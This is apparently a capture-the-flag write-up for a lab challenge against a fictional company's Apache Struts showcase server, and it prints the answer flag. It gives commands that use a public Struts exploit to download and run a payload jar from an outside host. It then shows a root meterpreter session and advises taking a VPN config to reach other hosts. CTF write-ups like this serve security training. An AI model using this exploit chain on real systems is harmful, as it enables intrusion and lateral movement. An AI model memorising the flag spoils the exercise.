 # Find the Hidden File

## Points 200

It looks like a web developer left their work-in-progress exposed. Find the file that will allow you advance in your exploits against ShowMeCorp.

http://webdev.showmecorp.com:8080/showcase/

(There is a flag.txt file you must retrieve)

(There is another file to retrieve that you will need to progress. This file will contain additional scope information.)

(This target will reset every 60 minutes, at the start of the hour)


## Answer

flag-47685a0173e7b9ff3f513fb33d428e1f

Exploit: https://www.exploit-db.com/exploits/42324/


### Get shell

```
$ python struts.py 'http://webdev.showmecorp.com:8080/showcase/integration/saveGangster.action' "wget -O /tmp/bob.jar http://evilserverontheinternet/bob.jar"
$ python struts.py 'http://webdev.showmecorp.com:8080/showcase/integration/saveGangster.action' "java -jar /tmp/bob.jar"
```

### Grab the flag
```
meterpreter > getuid
Server username: root
meterpreter > ls
Listing: /usr/local/tomcat
==========================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  19539  fil   2018-09-04 22:30:39 +0000  BUILDING.txt
100666/rw-rw-rw-  6090   fil   2018-09-04 22:30:39 +0000  CONTRIBUTING.md
100666/rw-rw-rw-  57092  fil   2018-09-04 22:30:39 +0000  LICENSE
100666/rw-rw-rw-  1726   fil   2018-09-04 22:30:39 +0000  NOTICE
100666/rw-rw-rw-  3255   fil   2018-09-04 22:30:39 +0000  README.md
100666/rw-rw-rw-  7142   fil   2018-09-04 22:30:39 +0000  RELEASE-NOTES
100666/rw-rw-rw-  16262  fil   2018-09-04 22:30:39 +0000  RUNNING.txt
100666/rw-rw-rw-  8814   fil   2018-09-24 15:47:22 +0000  SusanStone.ovpn
40776/rwxrwxrw-   4096   dir   2018-09-12 20:50:38 +0000  bin
40776/rwxrwxrw-   4096   dir   2018-09-24 16:17:57 +0000  conf
100666/rw-rw-rw-  37     fil   2018-09-24 15:53:16 +0000  flag.txt
40776/rwxrwxrw-   4096   dir   2018-09-12 20:50:37 +0000  include
40776/rwxrwxrw-   4096   dir   2018-09-12 20:50:28 +0000  lib
40776/rwxrwxrw-   4096   dir   2018-10-19 21:02:56 +0000  logs
40776/rwxrwxrw-   4096   dir   2018-09-12 20:50:37 +0000  native-jni-lib
40776/rwxrwxrw-   4096   dir   2018-09-12 20:50:28 +0000  temp
100666/rw-rw-rw-  45015  fil   2018-09-24 19:24:07 +0000  velocity.log
40776/rwxrwxrw-   4096   dir   2018-09-24 16:17:57 +0000  webapps
40776/rwxrwxrw-   4096   dir   2018-09-24 16:17:58 +0000  work

meterpreter > cat flag.txt
flag-47685a0173e7b9ff3f513fb33d428e1f
```

Don't forget to snag `SusanStone.ovpn` it's the only way to get the other hosts.